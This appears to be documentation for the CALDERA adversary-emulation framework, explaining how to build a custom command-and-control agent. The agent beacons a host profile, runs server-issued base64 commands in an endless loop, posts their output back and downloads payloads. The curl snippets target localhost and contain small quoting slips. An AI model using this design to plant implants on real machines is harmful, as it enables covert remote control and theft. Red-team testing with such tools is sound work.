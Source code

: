 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp and websocket. 

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file
* **host_ip_addrs**: A list of valid IPv4 addresses on the host

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"paw":"$paw","results":[{"id":$id, "output":$output, "status": $status, "pid":$pid}]}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 
